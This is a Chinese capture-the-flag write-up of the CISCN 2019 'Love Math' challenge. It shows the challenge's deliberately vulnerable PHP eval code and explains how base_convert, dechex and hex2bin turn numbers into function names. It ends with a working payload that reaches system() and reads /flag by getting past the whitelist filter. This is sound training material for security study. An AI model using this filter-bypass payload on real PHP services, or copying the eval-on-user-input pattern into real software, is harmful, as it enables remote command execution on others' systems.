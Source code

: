 ### [CISCN 2019 初赛]Love Math

> 参考：https://fushuling.com/index.php/2022/03/18/187/

----

```php
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}
```

- 限制了传入参数的长度
- 存在黑名单过滤

思路就是利用各种函数，构造`$content`，使他能够执行`eval('echo '.$content.';');`，我们得观察白名单上有啥

学习到几种函数

1. `base_convert()`

```php
$binaryNumber = "1010";
$decimalNumber = base_convert($binaryNumber, 2, 10); // 10
echo $decimalNumber; // 输出 10
```

- **number**：要转换的数字，通常以字符串形式提供。
- **frombase**：数字当前的进制（比如 2 为二进制，10 为十进制，16 为十六进制等）。
- **tobase**：要将数字转换成的目标进制。

2. `dechex()`

函数用于将十进制数转换为十六进制数。它接受一个十进制数值作为参数，并返回一个表示该数值的十六进制字符串。

```php
$Number = 255;
$hexNumber = dechex($Number);
echo $hexNumber; // 输出 ff
```

3. `hex2bin()`

`hex2bin()` 是 PHP 中的一个内置函数，用于将十六进制字符串转换为二进制字符串（实际上是二进制数据表示的字符串）

```php
$String = "48656C6C6F20576F726C64";
$binaryString = hex2bin($String);
echo $binaryString; // 输出 Hello World
```



Payload:

```php
echo base_convert(37907361743,10,36)."\n";
echo hex2bin("5f474554")."\n";
echo dechex(1598506324);
/*
hex2bin
_GET
5f474554   */
```

最终：

```php
?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi{pi})($$pi{abs})&pi=system&abs=cat /flag
----->
?c=($_GET[pi])($_GET[abs])&pi=system&abs=cat/flag
```



### 总结

总结：主要获得了一个新思路，当题目给我们白名单的时候，我们就要思考通过什么合适的方式绕过，这题主要是使用的编码的巧妙绕过，和构造payload

